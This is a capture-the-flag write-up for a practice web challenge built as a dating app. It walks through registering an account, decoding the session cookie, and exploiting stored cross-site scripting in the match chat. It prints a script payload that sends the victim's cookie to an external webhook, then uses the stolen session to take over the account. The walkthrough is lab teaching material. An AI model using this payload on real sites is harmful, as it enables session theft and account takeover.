








> ❓ Dating and matching can be exciting especially during Valentine's, but it's important to stay vigilant for impostors. Can you help identify possible frauds?

This web app simulates a modern dating app where the user would swipe left or right on an individual they are interested in, upon matching with one of the users, you can chat with your new found match, but you soon realize the chat box has a bit more functionality than intended…

---

## Login/Sign Up Page

Once we land on the site, we are greeted with a login and signup page.





```txt
POST /register HTTP/1.1
Host: 94.237.54.116:51392
Content-Length: 12972
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://94.237.54.116:51392
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryw21hUnGkOilkAOmc
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://94.237.54.116:51392/register
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyIjp7ImlkIjo2LCJ1c2VybmFtZSI6InRlc3QyIn19.Z8OPNg.Ikmt9PjaXbwuhLqSHebm7SGsNlU
Connection: keep-alive

------WebKitFormBoundaryw21hUnGkOilkAOmc
Content-Disposition: form-data; name="username"

test2
------WebKitFormBoundaryw21hUnGkOilkAOmc
Content-Disposition: form-data; name="password"

test
------WebKitFormBoundaryw21hUnGkOilkAOmc
Content-Disposition: form-data; name="email"

test2@mail.com
------WebKitFormBoundaryw21hUnGkOilkAOmc
Content-Disposition: form-data; name="age"

-1337
------WebKitFormBoundaryw21hUnGkOilkAOmc
Content-Disposition: form-data; name="bio"

test
------WebKitFormBoundaryw21hUnGkOilkAOmc
Content-Disposition: form-data; name="user-gender"

Other
------WebKitFormBoundaryw21hUnGkOilkAOmc
Content-Disposition: form-data; name="interested-gender"

All
------WebKitFormBoundaryw21hUnGkOilkAOmc
Content-Disposition: form-data; name="profile-picture"; filename="hackthebox-1330289840795787516-2408172022.png"
Content-Type: image/png

PNG
```

Once you are fully registered, you are given a session token, which appears to be the same format as a JWT, the first half of the token is the users id and username encoded in base64.

```txt
session=eyJ1c2VyIjp7ImlkIjo2LCJ1c2VybmFtZSI6InRlc3QyIn19.Z8OPNg.Ikmt9PjaXbwuhLqSH
```

```txt
eyJ1c2VyIjp7ImlkIjo2LCJ1c2VybmFtZSI6InRlc3QyIn19

{"user":{"id":6,"username":"test2"}}
```

---

## Dashboard

Once you land on the dashboard, you are then presented with a collection of users that you can swipe left or right on.



---

## Testing The Match Chat

After heading over to your matches you will see a match with Renata pop up, at this point I attempt an XSS injection and was successful. This gave me the idea to see if I can then, grab the users' cookie using XSS.





I craft up a payload to send over to Renata, this payload will grab the users' cookie and send it to that webhook with the parameter `cookie`.

```javascript
<script>document.location='https://webhook.site/550c48c3-9db5-4c98-8f40-fdc706f9fe7f/log?cookie='+document.cookie</script>
```



---

## Capturing The Flag

Now that we have our victims' cookie, we can head over to our devtools tab in the browser and paste the token to the session cookie. After doing so, we can now refresh the page and we will then be logged into our victims' account and can see their message, one of which includes a flag from Dimitris containing the flag.




